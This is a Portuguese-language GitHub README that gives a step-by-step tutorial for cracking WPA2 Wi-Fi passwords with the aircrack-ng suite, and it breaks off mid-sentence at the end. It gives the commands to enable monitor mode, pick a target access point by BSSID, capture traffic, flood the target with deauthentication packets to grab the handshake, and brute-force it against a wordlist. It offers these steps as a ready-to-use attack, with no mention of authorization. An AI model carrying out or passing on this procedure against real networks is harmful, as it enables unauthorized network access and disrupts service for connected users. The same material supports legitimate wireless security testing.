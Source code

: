 # Aicrack-ng
***Quebrando senhas WPA2 com AIRCRACK-NG***

Nesse repósitorio você irá descubrir cada etapa para utilizar o aircrack-ng, uma excelente ferramenta para quebra de senha no modo força bruta utilizando dicionarios.

Antes de começarmos é indispensável você ter um adaptador de rede e segundo coloca-lo em modo monitor.

1- airmon-ng check kill | Esse comando irá matar todos os processos que possa vim a conflitar durante o processo de quebra.

2- airmon-ng start wlan0 | Esse comando ira colocar a placa em modo monitor.

3- airodump-ng wlan0 | Esse comando irá iniciar a busca por todos os Aps disponiveis. Os que estão por ultimo geralmente são os que estão mais próximos de você.

4- airodump-ng wlan0 -d 78:98:E8:DC:7D:A6 | - aonde entrou o 78:98:E8:DC:7D:A6 é aonde irá entrar o bssid do seu alvo, substitua - Esse comando irá identificar se há algum host conectado nessa estação (ap) caso não haja não será possível o ataque.

5-airodump-ng -w hack1 -c 2 --bssid 78:98:E8:DC:7D:A6 wlan0 |

5.1 Após isso abra mais um terminal e execute o proximo processo

6- aireplay-ng --deauth 0 -a 78:98:E8:DC:7D:A6 wlan0 | Irá gerar um ataque de negação para o (ap) alvo após isso todos os hosts serão desconectados e quando eles tentarem se conectar você obtera o handshake. O handshake aparece no terminal do processo n° 5

7 - aircrack-ng hack1-01.cap -w numeros.txt | Esse comando irá iniciar um ataque de força bruta com dicionario.

-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=

-numeros.txt = É uma lista de senha criadas atráves do programa crunch
-wlan0 = É o nome do meu adaptador de rede o seu pode ser diferente.
-78:98:E8:DC:7D:A6 = É o nome do bssid do meu alvo do seu será diferente não copie
-hack1 = É onde o arquivo cap será projetado, mas o nome é opcional p
